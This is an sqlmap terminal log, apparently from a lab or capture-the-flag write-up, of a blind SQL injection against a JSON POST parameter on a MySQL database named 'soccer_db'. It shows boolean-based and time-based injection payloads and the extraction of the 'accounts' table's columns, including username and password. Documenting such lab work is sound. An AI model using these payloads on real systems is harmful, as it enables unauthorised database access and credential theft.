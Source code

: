 ```bash
      |_|V...       |_|   https://sqlmap.org                                                                                                                  

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:48:23 /2024-03-08/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[20:48:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "94530 AND 6914=6914"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "94530 AND (SELECT 3404 FROM (SELECT(SLEEP(5)))xhYU)"}
---
[20:48:27] [INFO] testing MySQL
[20:48:27] [INFO] confirming MySQL
[20:48:27] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 8.0.0
[20:48:27] [INFO] fetching columns for table 'accounts' in database 'soccer_db'
[20:48:27] [INFO] retrieved: 
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[20:48:27] [WARNING] time-based comparison requires larger statistical model, please wait.......................... (done)                                                                                                                 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[20:48:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
4
[20:48:34] [INFO] retrieving the length of query output
[20:48:34] [INFO] retrieved: 
[20:48:35] [INFO] retrieved: 
[20:48:35] [INFO] retrieved: 
[20:48:45] [INFO] adjusting time delay to 1 second due to good response times
id
[20:48:50] [INFO] retrieving the length of query output
[20:48:50] [INFO] retrieved: 
[20:48:51] [INFO] retrieved: 
[20:48:51] [INFO] retrieved: email
[20:49:08] [INFO] retrieving the length of query output
[20:49:08] [INFO] retrieved: 
[20:49:08] [INFO] retrieved: 
[20:49:09] [INFO] retrieved: username
[20:49:37] [INFO] retrieving the length of query output
[20:49:37] [INFO] retrieved: 
[20:49:37] [INFO] retrieved: 
[20:49:38] [INFO] retrieved: p
[20:49:48] [ERROR] invalid character detected. retrying..
[20:49:48] [WARNING] increasing time delay to 2 seconds
assword
[20:50:34] [INFO] fetching entries for table 'accounts' in database 'soccer_db'
[20:50:34] [INFO] fetching number of entries for table 'accounts' in database 'soccer_db'
[20:50:34] [INFO] retrieved: 
[20:50:34] [INFO] retrieved: 1
```